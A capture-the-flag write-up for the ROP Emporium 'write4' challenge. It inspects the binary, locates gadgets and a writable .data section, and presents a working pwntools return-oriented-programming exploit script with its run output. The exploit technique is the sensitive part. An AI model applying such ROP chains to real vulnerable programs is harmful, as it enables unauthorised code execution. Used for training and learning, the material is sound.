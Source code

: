 # ROP - Write4


## Description 

This challenge has been taken from https://ropemporium.com/challenge/write4.html.
This time the string ```cat flag.txt``` is not contained in the binary.
We're given a couple of hints: 
- there's a function ```print_file()``` which takes the filename string as the first argument;
- we need to search for a gadget which stores a value into the memory such as ```mov [reg], reg```.


## Explore the binary

Download the challenge:
```sh
curl --output split.zip https://ropemporium.com/binary/write4.zip
unzip write4.zip && rm write4.zip
```

Check the imported functions and those defined by the programmer as done in the previous challenges:

```sh
$ rabin2 -i write4 
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400500 GLOBAL FUNC       pwnme
2   0x00000000 GLOBAL FUNC       __libc_start_main
3   0x00000000 WEAK   NOTYPE     __gmon_start__
4   0x00400510 GLOBAL FUNC       print_file
```

```sh
$ rabin2 -qs write4 | grep -ve imp -e ' 0 ' 
0x00601038 1 completed.7698
0x00400617 17 usefulFunction
0x004006a0 2 __libc_csu_fini
0x004006b0 4 _IO_stdin_used
0x00400630 101 __libc_csu_init
0x00400550 2 _dl_relocate_static_pie
0x00400520 43 _start
0x00400607 16 main
```

```asm
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006b4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret    
End of assembler dump.
pwndbg> x/s 0x4006b4
0x4006b4:       "nonexistent"
```

Here it's clear that we need to insert the address of the stored string inside the edi register.

In order to find a place to store "flag.txt", ```readelf``` could be useful. Through this we're able to print the address of the binary sections and check whether they're writable or just readonly.

```sh
$ readelf --sections write4

There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400238  00000238
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.ABI-tag     NOTE             0000000000400254  00000254
       0000000000000020  0000000000000000   A       0     0     4
  [ 3] .note.gnu.build-i NOTE             0000000000400274  00000274
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400298  00000298
       0000000000000038  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           00000000004002d0  000002d0
       00000000000000f0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           00000000004003c0  000003c0
       000000000000007c  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           000000000040043c  0000043c
       0000000000000014  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400450  00000450
       0000000000000020  0000000000000000   A       6     1     8
  [ 9] .rela.dyn         RELA             0000000000400470  00000470
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a0  000004a0
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d0  000004d0
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000182  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006a4  000006a4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006b0  000006b0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006c0  000006c0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400708  00000708
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001f6  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001876
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```

```.data``` is interesting, so we inspect its content:
```sh
$ objdump -s -j .data write4         

write4:     file format elf64-x86-64

Contents of section .data:
 601028 00000000 00000000 00000000 00000000  ................
 ```

Nothing's inside it, so we can insert the string from ```0x601028```.

Now use  ```ropper``` to search for a gadget similar to the one given as hint and another which pops rdi.

```asm
0x0000000000400628: mov qword ptr [r14], r15; ret;
0x0000000000400690: pop r14; pop r15; ret;
```
and 
```asm
0x0000000000400693: pop rdi; ret;
```
Great!

Now it is possible to build the rop chain. At the ret instruction in the pwnme function, the stack should be composed in this way:

```asm
|                    |
|                    |
|    p_gadget_2pop   |
|    p_string_addr   |
|     "flag.txt"     |
| p_gadget_load_addr |
|    p_gadget_rdi    |
|    p_string_addr   |
| p_call_print_file  |
|        ...         |
----------------------
          |
          V
|                    |
|                    |
| 0x0000000000400690 |
| 0x0000000000601028 |
|     "flag.txt"     |
| 0x0000000000400628 |
| 0x0000000000400693 |
| 0x0000000000601028 |
| 0x0000000000400620 |
|        ...         |
----------------------
        STACK
```

## Exploit

```python
import pwn

p = pwn.process("./write4") 

'''
    gadgets:
        - 0x0000000000400628: mov qword ptr [r14], r15; ret; 
        - 0x0000000000400690: pop r14; pop r15; ret; 
        - 0x0000000000400693: pop rdi; ret; 

    address to place the string: 0x00601028
    address of print_file function call: 0x00400620

    payload:
        [0x0000000000400690 * offset,
        0x00601028, 
        "flag.txt",
        0x0000000000400628,
        0x0000000000400693,
        0x00601028,
        0x00400620]        
'''

payload = b"A" * 40
payload += pwn.p64(0x0000000000400690)
payload += pwn.p64(0x00601028)
payload += b"flag.txt"
payload += pwn.p64(0x0000000000400628)
payload += pwn.p64(0x0000000000400693)
payload += pwn.p64(0x00601028)
payload += pwn.p64(0x00400620)

p.recvuntil('\n> ')
p.sendline(payload)
p.interactive()
```

```sh
$ python3 exploit.py 
[+] Starting local process './write4': pid 162228
exploit.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil('\n> ')
[*] Switching to interactive mode
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```
